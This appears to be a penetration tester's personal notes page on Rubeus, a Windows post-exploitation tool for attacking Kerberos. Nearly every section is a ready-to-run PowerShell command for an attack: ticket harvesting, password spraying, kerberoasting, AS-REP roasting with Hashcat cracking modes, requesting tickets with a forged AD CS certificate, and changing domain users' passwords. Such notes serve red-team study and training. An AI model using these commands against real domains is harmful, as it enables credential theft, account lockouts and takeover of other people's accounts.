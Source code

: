 # Using Rubeus

**author**:: Nathan Acks  
**date**:: 2022-05-11

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux's `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Kerberos](kerberos.md)

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the current machine.
# Probably works best when run on a domain controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users and generate a
# ticket giving ticket for successful authentications. (Can trigger
# account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known kerberoastable accounts using
# Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

* [Using Hashcat](hashcat.md)

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use Hashcat to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` -> `$kerb5asrep$23$`) and then use mode 18200.

## Using a Certificate to Request a Ticket

```powershell
# Request a ticket using a certificate from AD CS.
#
Rubeus.exe asktgt /user:$USER `
                  /enctype:aes256 `
                  /certificate:$CERTIFICATE_FILE `
                  /password:$CERTIFICATE_FILE_PASSWORD `
                  /outfile:$TICKET_FILE `
                  /domain:$DOMAIN `
                  /dc:$DC_IP_ADDRESS
```

This is very useful if we've used an AD CS misconfiguration as described by SpectreOps' "Certified Pre-Owned" research to forge a certificate that's valid for another user.

* [SpectreOps: Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

## Change a User's Password

```powershell
# We can use Rubeus to change the password for domain users so long as
# our ticket is for a user with permission to do so (generally the user
# themselves or a domain admin.
#
Rubeus.exe changepw /ticket:$TICKET_FILE `
                    /new:$NEW_PASSWORD `
                    /dc:$DC_IP_ADDRESS `
                    /targetuser:$DOMAIN\$USER
```
